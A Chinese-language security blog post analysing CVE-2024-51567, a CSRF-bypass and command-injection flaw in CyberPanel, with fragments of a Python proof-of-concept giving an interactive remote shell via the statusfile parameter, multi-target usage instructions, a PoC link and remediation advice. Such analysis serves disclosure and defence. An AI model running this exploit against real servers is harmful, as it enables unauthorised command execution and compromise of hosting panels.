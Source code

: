 #  深入解析 CVE-2024-51567：CyberPanel 命令注入漏洞及 PoC 复现   
云梦DC  云梦安全   2024-11-20 01:05  
  
在近期的安全事件中，CVE-2024-51567 成为了一大焦点。这一漏洞影响 CyberPanel v2.3.6，通过绕过 CSRF 防护和利用特定参数中的 Shell 元字符实现远程命令执行 (RCE)。本文将带您全面了解此漏洞的成因、利用方式及防护措施，并提供一个 Python 漏洞利用脚本的解析示例，帮助大家更好地理解漏洞机制及修复方法。  
## 漏洞概述  
- **CVE 编号：**  
 CVE-2024-51567  
  
- **漏洞类型：**  
 命令注入 / CSRF 绕过  
  
- **受影响版本：**  
 CyberPanel v2.3.6 和 v2.3.7（未修复版本）  
  
- **漏洞文件：**databases/views.py  
 中的upgrademysqlstatus  
 端点  
  
- **漏洞描述：**  
 攻击者通过绕过 CSRF 防护（该保护仅限于 POST 请求）并在statusfile  
 参数中插入 Shell 元字符，可以执行任意命令。  
  
- **公开利用：**  
 该漏洞被 PSAUX 团队于 2024 年 10 月发现并公开利用。  
  
- ![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpxiaKyI98MJklzBBWSGT8MAicSPl8jqtJtjedXvUnqDMuBxdL41FoZe8t1TwSjudWKRQaCo4SUc3dlQ/640?wx_fmt=png&from=appmsg "")  
  
  
## 漏洞利用的 PoC 原理  
  
漏洞利用的核心步骤包括：  
1. **获取 CSRF Token：**  
 攻击者从目标服务器的 Cookie 中提取 CSRF Token。  
  
1. **构造恶意 Payload：**  
 在请求中利用statusfile  
 参数嵌入恶意命令，伪装为合法请求发送到upgrademysqlstatus  
 端点。  
  
1. **命令注入：**  
 服务端错误地执行了嵌入的恶意命令，实现远程命令执行。  
  
以下是漏洞利用的关键代码逻辑：  
  
```
payload = {"statusfile":f";{cmd} ;"} headers = {"X-CSRFToken": csrf_token,"Referer": target_url } response = client.post(f"{target_url}/dataBases/upgrademysqlstatus", headers=headers, data=payload)
```  
  
  
## PoC 脚本解析  
  
以下是针对该漏洞的 PoC 脚本，具备交互式命令输入、CSRF Token 获取和多目标支持等功能。  
### 脚本核心功能  
1. **CSRF Token 获取**  
脚本通过 HTTPX 客户端获取目标服务器的 CSRF Token：  
  
  
  
1. ```
defget_CSRF_token(client, target_url): response = client.get(target_url)return response.cookies.get("csrftoken")
```  
  
**命令注入**  
构造恶意请求并发送到漏洞端点：  
  
  
  
1.   
1. ```
defpwn(client, target_url, csrf_token, cmd): payload = {"statusfile":f";{cmd} ;"} headers = {"X-CSRFToken": csrf_token} response = client.post(f"{target_url}/dataBases/upgrademysqlstatus", headers=headers, data=payload)print(response.text)
```  
  
**交互式模式**  
脚本支持多次命令执行，直至用户输入exit  
：  
  
  
  
1.   
```
whileTrue: cmd =input("shell> ")if cmd.lower() =="exit":break pwn(client, target_url, csrf_token, cmd)
```  
###   
## 使用方法  
### 1.环境准备  
- Python 3 环境  
  
- 安装httpx  
 模块：```
pip install httpx

```  
  
  
-   
### 2.单目标测试  
  
运行以下命令：  
  
```
python CVE-2024-51567.py http://example.com
```  
  
  
### 3.多目标测试  
  
将目标 URL 列表保存到targets.txt  
 文件中，一行一个 URL：  
  
```
http://target1.com http://target2.com http://target3.com
```  
  
  
  
运行脚本：  
  
```
python CVE-2024-51567.py targets.txt
```  
  
POC地址：  
  
https://github.com/ajayalf/CVE-2024-51567  
  
注：POC来源于网络仅供参考与测试使用  
  
## 漏洞修复建议  
1. **升级 CyberPanel：**  
 官方已在  
commit 5b08cd6  
 中修复了该漏洞，建议用户立即升级至最新版本。  
  
1. **加强 CSRF 防护：**  
 确保所有端点（包括 GET 和 POST 请求）均具备全面的 CSRF 防护。  
  
1. **输入参数校验：**  
 对所有用户输入进行严格的参数校验，防止命令注入。  
  
1. **访问权限控制：**  
 限制敏感端点的访问，仅允许授权用户操作。  
  

